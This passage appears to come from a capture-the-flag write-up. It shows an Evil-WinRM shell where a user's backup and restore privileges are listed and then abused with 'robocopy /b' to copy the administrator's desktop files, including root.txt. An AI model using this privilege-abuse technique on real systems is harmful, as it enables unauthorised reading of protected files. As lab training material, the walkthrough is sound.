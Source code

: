     *Evil-WinRM* PS C:\Users\jorden\Documents> whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                Description                         State
    ============================= =================================== =======                
    SeMachineAccountPrivilege     Add workstations to domain          Enabled
    SeSystemtimePrivilege         Change the system time              Enabled
    SeBackupPrivilege             Back up files and directories       Enabled
    SeRestorePrivilege            Restore files and directories       Enabled                
    SeShutdownPrivilege           Shut down the system                Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
    SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled                
    SeTimeZonePrivilege           Change the time zone                Enabled 
    

I’m particularly interesting in backup and restore. I can see that jorden has
`SeBackupPrivilege` and `SeRestorePrivilege`.

#### File Read

With both of these privs, I can use `robocopy` to read files (see
[PayloadsAllTheThings short
reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop
---impersonation-privileges)).

    
    
    *Evil-WinRM* PS C:\programdata\temp> robocopy /b C:\users\administrator\desktop C:\programdata\temp
    
    -------------------------------------------------------------------------------
       ROBOCOPY     ::     Robust File Copy for Windows
    -------------------------------------------------------------------------------
    
      Started : Wednesday, April 1, 2020 12:48:19 PM
       Source : C:\users\administrator\desktop\
         Dest : C:\programdata\temp\
    
        Files : *.*
    
      Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30
    
    ------------------------------------------------------------------------------
    
                               2    C:\users\administrator\desktop\
                New File                 488        desktop.ini
      0%
    100%
                New File                  34        root.txt
      0%
    100%
    
    ------------------------------------------------------------------------------
    